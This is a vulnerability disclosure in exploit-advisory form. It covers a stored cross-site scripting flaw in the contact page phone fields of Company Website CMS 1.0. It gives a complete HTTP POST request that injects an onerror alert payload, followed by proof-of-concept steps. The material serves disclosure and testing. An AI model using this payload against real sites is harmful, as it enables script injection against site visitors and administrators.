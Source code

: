 # Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code
#### Version: Company Website CMS  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application. Company Website CMS does not filter the content correctly at the  parameter, resulting in the generation of stored XSS.

#### Payload used:
```
POST /dashboard/contact HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7024317128117527412760215857
Content-Length: 989
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/contact
Upgrade-Insecure-Requests: 1

-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone1"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone2"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email1"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email2"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="longitude"

7.099737483
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="latitude"

7.63734634
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="save"


-----------------------------7024317128117527412760215857--

```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/，We can see the alert.;

   ![image-20220810135857875](img/Company Website CMS(XSS)/image-20220810135857875.png)

   

   





